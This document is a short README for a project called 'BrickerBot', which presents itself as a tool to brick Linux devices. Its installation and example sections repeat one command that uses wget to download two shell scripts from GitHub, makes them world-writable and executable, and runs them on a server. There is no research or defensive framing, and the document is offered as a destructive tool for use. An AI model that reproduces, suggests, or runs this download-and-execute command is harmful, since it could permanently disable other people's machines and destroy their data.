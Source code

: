 BrickerBot
=====

Command for brick linux devices

## Installation

    $ wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/char_for_brick.bash; wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh

## How to use

It's simple to use. You just need to download and execute they scripts on the server.

### Example:
    $ wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/char_for_brick.bash; wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh
    

## License 

> Copyright (C) 2021 - 2022 
> Nassim Saqqaf (nassim.saqqaf@protonmail.com)
